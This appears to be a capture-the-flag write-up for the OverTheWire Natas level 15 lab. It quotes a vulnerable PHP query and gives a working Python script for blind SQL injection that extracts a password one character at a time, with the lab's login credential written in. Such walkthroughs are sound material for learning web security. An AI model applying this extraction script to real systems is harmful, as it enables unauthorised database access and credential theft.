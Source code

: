 It's a simple SQL Injecting as we examing the source code:

```php
$query = "SELECT * from users where username=\"" . $_REQUEST["username"] . "\"";
```

The volunability can't be more obvious: we need a payload like below:
```sql

```

```py
import requests

def test(i):
    url = "http://natas15.natas.labs.overthewire.org/index.php"

    l = 0
    r = 128

    # [l, r)
    while r - l > 1:
        this = (r+l)//2
        payload = f'natas16" and {this} <= ASCII(SUBSTRING(password, {i}, 1)) -- '
        res = requests.post(url, {"username": payload}, auth=('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'))
        res = res.text.find('This user exists.') != -1
        if res:
            # target >= this
            l = this
        else:
            r = this

    return l

flag=""
for i in range(1, 64):
    flag += chr(test(i))
    print(flag)
```
